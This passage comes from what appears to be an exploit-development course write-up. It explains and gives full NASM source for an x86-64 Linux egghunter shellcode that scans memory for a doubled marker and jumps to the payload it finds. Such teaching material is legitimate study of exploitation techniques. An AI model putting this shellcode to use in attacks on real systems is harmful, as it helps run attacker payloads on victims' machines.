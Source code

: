 If the egg does not exist, then we will increase the memory address by 1 byte and check again. We will continue scanning the memory space byte by byte, until either we find the egg or we cannot read the memory. If the memory is unreadable, we will check the next memory page by incrementing the address by 4096ish bytes. 

### Check for a Double Egg
If the egg exists, we will see if there are two instances of our egg, or only one. If only one egg exists, then that is not the egg(s) we are looking for. In such a case of only 1 egg, we will keep our scan continuing. Although if our egg exists twice, we will jump to our eggs and execute our payload.

```nasm
 cmp [rdx], ebx      ; Egg?
 jnz nextAddress     ; No Egg? Go to next memory page
 cmp [rdx+0x4], ebx  ; second Egg?
 jnz nextAddress     ; No Egg? Check next memory address
 jmp rdx             ; EGG FOUND! Jump to Egg!
```

# Testing the EggHunter

#### EggHunter Assembly

```nasm  
; Filename: eggHunter.nasm
; Author:   boku
global _start
_start:
 xor rcx, rcx        ; RCX = 0x0
 mul rcx             ; RAX & RDX = 0x0
; Location Shellcode: 0x555555558060
;                     0x555510100000
; gdb-peda$ vmmap
; Start              End                Perm      Name
; 0x0000555555554000 0x0000555555557000 r-xp      /home/beta/git/slae64/3-egghunter/Hunter
; 0x0000555555557000 0x0000555555558000 r-xp      /home/beta/git/slae64/3-egghunter/Hunter
; 0x0000555555558000 0x0000555555559000 rwxp      /home/beta/git/slae64/3-egghunter/Hunter
; 0x0000555555559000 0x000055555557a000 rwxp      [heap]

 add rdx, 0x55551010 ; Start at a higher address (hopefully reduce time)
 shl rdx, 0x10       ; 0x55551010 => 0x555510100000
nextPage:            ; Increment RDX to the next memory page
 or dx, 0xfff        ; 0xfff = 4096. Size of page
nextAddress:         ; Increment RDX to the next memory address
; int link(const char *oldpath, const char *newpath);
 inc rdx
 lea rdi, [rdx+0x8]  ; ARG1=*oldpath
 xor rsi, rsi        ; ARG2=*newpath
 xor rax, rax        ; reset rax for syscall
 add al, 0x56        ; System Call for link()
 syscall             ; Executes link()
; Check if memory page is accessible
 cmp al, 0xf2        ; Can memory address be read?
; strace ./eggHunter
; link(0x1008, NULL)                      = -1 EFAULT (Bad address)
 jz nextPage         ; If no, check the next memory page
 xor rbx, rbx
 add ebx, 0x50905090 ; Configure Egg in RBX
 cmp [rdx], ebx      ; Egg?
 jnz nextAddress     ; No Egg? Go to next memory page
 cmp [rdx+0x4], ebx  ; second Egg?
 jnz nextAddress     ; No Egg? Check next memory address
 jmp rdx             ; EGG FOUND! Jump to Egg!
```  